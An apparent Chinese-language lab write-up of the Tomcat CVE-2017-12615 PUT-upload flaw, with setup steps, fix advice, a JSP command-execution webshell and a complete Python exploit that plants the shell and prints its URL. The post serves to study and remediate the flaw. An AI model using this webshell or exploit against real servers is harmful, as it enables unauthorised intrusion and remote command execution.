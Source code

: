 ```yaml
---
title: Tomcat CVE-2017-12615 远程代码执行漏洞
date: 2017-09-21 18:13:23
tags:
		- Tomcat
categories:
		- 安全研究
---
```


Tomcat CVE-2017-12615 远程代码执行漏洞的简单研究。

<!-- more -->


__下载安装jdk__

	http://js.9553.com/soft/jdk-8u66-windows-i586-20151102.rar

__环境配置__

新建2个变量，编辑一个变量，分别填入一下信息

	系统变量里面

	新建：
	
	变量名:JAVA_HOME
	
	变量值:你的JDK安装目录\jdk1.7.0
	
	 
	
	变量名:CLASSPATH
	
	变量值:.;%JAVA_HOME%\lib;%JAVA_HOME%\lib\dt.jar;%JAVA_HOME%\lib\tools.jar;%TOMCAT_HOME%\BIN
	
	（注意最前面有个.号）
	
	 
	
	编辑：
	
	变量名:Path
	
	变量值:%JAVA_HOME%\bin;%JAVA_HOME%\jre\bin;
	
	 (将此处的字符串粘帖到变量值的最前面)



在开始运行输入CMD，在命令行里分别输入java; javac; java -version，显示信息，说明java环境配置成功。

__tomcat__

	http://tomcat.apache.org/download-70.cgi


>zip、tar.gz和Windows Service Installer三种安装包，其中： 
Zip是Windows下的免安装版本，只需要解压后做一定的手动配置就可以正常的使用； 
tar.gz是Linux下的安装包； 
Windows Service Installer很明显就是Windows下的Install程序，双击后就可以自动安装了



变量名:TOMCAT_HOME

变量值:你的TOMCAT所在目录   
如：E:\apache-tomcat-7.0.26


__tomcat配置__

修改默认访问端口

	E:\tomcat\conf\server.xml

修改为9090


 	<Connector port="9090" protocol="HTTP/1.1"
               connectionTimeout="20000"
               redirectPort="8443" />



----------


#### Tomcat 代码执行漏洞分析

修改配置文件 `E:\tomcat\conf\server.xml`


添加以下内容

	<init-param>
            <param-name>readonly</param-name>
            <param-value>false</param-value>
        </init-param>


#### 漏洞利用条件

CVE-2017-12615 需要将readonly初始化参数由默认值设置为false。但是Tomcat7.x版本中的`web.xml`配置文件中没有`readonly`参数，需要手工添加，默认配置不受此漏洞影响。





__版本--7.0.81__


![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/17-9-21/6879452.jpg)

上传的时候出现，403禁止。。

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/17-9-21/49583998.jpg)


__版本--7.0.79__

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/17-9-21/71751989.jpg)


* put请求，上传内容

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/17-9-21/68481146.jpg)

* 访问

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/17-9-21/13765510.jpg)

* 上传一木马

		<%
	    if("023".equals(request.getParameter("pwd"))){
	        java.io.InputStream in = 
	            Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
	            int a = -1;
	            byte[] b = new byte[2048];
	            out.print("<pre>");
	            while((a=in.read(b)) !=1){
		                out.println(new String(b));
	            }
	            out.print("</pre>");
	    }
		%>
	


![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/17-9-21/96541990.jpg)


##### POC

[CVE-2017-12615.py](https://github.com/fupinglee/MyPython/blob/92394ff98b02c1d81361ce2d5ae9f53f527a2a6b/exploit/CVE-2017-12615/CVE-2017-12615.py)

使用了`httplib`模块。对其中的几句代码不是很理解，单独测试一下。

	>>> conn = httplib.HTTPConnection('192.168.86.194',9090)
	>>> conn.request(method='OPTIONS',url='/fffzz')
	>>> a = conn.getresponse()
	>>> a
	<httplib.HTTPResponse instance at 0x0000000002612188>
	>>> a.getheaders()
	[('date', 'Thu, 21 Sep 2017 08:39:26 GMT'), ('content-length', '0'), ('allow', '
	GET, HEAD, POST, PUT, DELETE, OPTIONS'), ('server', 'Apache-Coyote/1.1')]

`OPTIONS`

> 这个方法会请求服务器返回该资源所支持的所有HTTP请求方法，该方法会用'*'来代替资源名称，向服务器发送OPTIONS请求，可以测试服务器功能是否正常。

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/17-9-21/13222151.jpg)

	#!/usr/bin/python
	# -*- coding:utf-8 -*-
	#__author__="浮萍"
	
	import httplib
	import sys
	import time
	
	#恶意代码
	body = '''<%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp
	+"\\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();}%><%if("023".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("<pre>"+excuteCmd(request.getParameter("cmd"))+"</pre>");}else{out.println(":-)");}%>'''
	
	try:
	    conn = httplib.HTTPConnection(sys.argv[1])  # 第一个参数为目标地址
	    conn.request(method='OPTIONS',url='/ffffzz')
	    headers = dict(conn.getresponse().getheaders())
	    if 'allow' in headers and headers['allow'].find('PUT') > 0:
	        conn.close()
	        conn = httplib.HTTPConnection(sys.argv[1])
	        url = "/" + str(int(time.time())) + '.jsp/'
	        #url = "/" + str(int(time.time())) + '.jsp::$DATA'
	        conn.request(method='PUT',url=url,body=body)
	        res = conn.getresponse()
	        if res.status == 201:
	            print 'shell:', 'http://' + sys.argv[1] + url[:-1]
	        elif res.status == '204':
	            print 'file exists'
	        else:
	            print 'error'
	        conn.close()
	        
	    else:
	        print 'Server not vulnerable'
	        
	except Exception,e:
	    print 'Error:',e

##### 修复建议

1. 升级到Apache Tomcat 最新的版本
2. 将`conf\web.xml`中的`<init-param>
            <param-name>readonly</param-name>
            <param-value>true</param-value>
        </init-param>`

设置为`true`，其实默认的就是`true`。






##### 参考

[https://tomcat.apache.org/security-7.html](https://tomcat.apache.org/security-7.html)

[https://mp.weixin.qq.com/s/-dgcKKCjT8C2yDxMOXDyLA](https://mp.weixin.qq.com/s/-dgcKKCjT8C2yDxMOXDyLA)

[https://www.secfree.com/article-399.html](https://www.secfree.com/article-399.html)



